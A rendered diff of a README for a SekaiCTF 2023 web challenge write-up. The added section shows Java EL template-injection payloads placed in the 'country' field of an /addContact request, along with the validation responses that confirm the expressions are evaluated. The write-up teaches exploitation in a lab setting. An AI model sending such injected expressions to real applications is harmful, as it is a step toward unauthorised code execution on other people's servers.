

Before and after one commit to Neptunians/sekai-ctf-2023-web-writeup, a Markdown page: README.md, the part around one of its changes. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -267,3 +235,58 @@ constraintContext.buildConstraintViolationWithTemplate(message).addConstraintVio
 ```
 The [buildConstraintViolationWithTemplate](https://docs.jboss.org/hibernate/stable/validator/api/org/hibernate/validator/constraintvalidation/HibernateConstraintValidatorContext.html#buildConstraintViolationWithTemplate(java.lang.String)) method processes Java EL. Since we can control part of the message variable, it is basically a [Template Injection](https://codeql.github.com/codeql-query-help/java/java-insecure-bean-validation/) for us.
 
+### Payload - The Basics
+
+To make it simpler, let's make some valid Payloads, except for the Country, which is our attack surface.
+
+I don't remember how we got that `message` was a variable interpreted in the EL.
+Let's test some payloads on `/addContact` route.
+
+- Payload
+```json
+{
+    "firstName":"Hey",
+    "lastName":"You",
+    "description":"Abc",
+    "country":"{message}"
+}
+```
+
+- Response:
+```json
+{
+    "violations": [
+        {
+            "fieldName": "country",
+            "message": "Invalid country is not a valid country"
+        }
+    ]
+}
+```
+
+`Invalid country` is the default return value of the [`message`](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/42289630c7c3e803c40675e8463dbd17baed6e23/web-frog-waf/source/src/main/java/com/sekai/app/controller/contact/CheckCountry.java#L21) method on the [CheckCountry.java](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/main/web-frog-waf/source/src/main/java/com/sekai/app/controller/contact/CheckCountry.java) interface.
+
+By using the dollar sign, we start to play better games using our `message` variable.
+
+- Payload
+```json
+{
+    "firstName":"Hey",
+    "lastName":"You",
+    "description":"Abc",
+    "country":"${message.getClass().toString()}"
+}
+```
+
+- Response:
+```json
+{
+    "violations": [
+        {
+            "fieldName": "country",
+            "message": "class java.lang.String is not a valid country"
+        }
+    ]
+}
+```
+
````
Also changed, not shown: other parts of README.md (+110 -35 lines).
